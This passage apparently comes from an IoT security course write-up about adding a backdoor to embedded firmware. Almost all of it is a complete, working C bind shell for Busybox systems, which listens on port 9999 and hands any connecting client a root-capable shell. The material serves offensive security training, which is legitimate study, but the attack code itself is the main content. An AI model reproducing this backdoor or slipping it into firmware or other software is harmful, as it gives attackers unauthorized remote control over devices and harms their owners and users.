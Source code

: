 ### Find A Backdoor To Incorporate

The IoT course provides an example backdoor c program that we will use
for this exercise. The backdoor is the following:

{% highlight c %}

/* Bindshell for Embedded system running Busybox
Author - Vivek Ramachandran
http://pentesteracademy.com
http://securitytube-training.com
http://securitytube.net

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define SERVER_PORT	9999
int main() {
	int serverfd, clientfd, server_pid, i = 0;
	char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n Welcome to Offensive IoT Exploitation\n";
	char *args[] = { "/bin/busybox", "sh", (char *) 0 };
	struct sockaddr_in server, client;
	socklen_t len;

	server.sin_family = AF_INET;
	server.sin_port = htons(SERVER_PORT);
	server.sin_addr.s_addr = INADDR_ANY;

	serverfd = socket(AF_INET, SOCK_STREAM, 0);
	bind(serverfd, (struct sockaddr *)&server, sizeof(server));
	listen(serverfd, 1);

    while (1) {
    	len = sizeof(struct sockaddr);
    	clientfd = accept(serverfd, (struct sockaddr *)&client, &len);
        server_pid = fork();
        if (server_pid) {
        	write(clientfd, banner,  strlen(banner));
	        for(; i <3 /*u*/; i++) dup2(clientfd, i);
	        execve("/bin/busybox", args, (char *) 0);
	        close(clientfd);
    	} close(clientfd);
    } return 0;
}

{% endhighlight %}

This bindshell binds to port 9999 and waits for a connection.

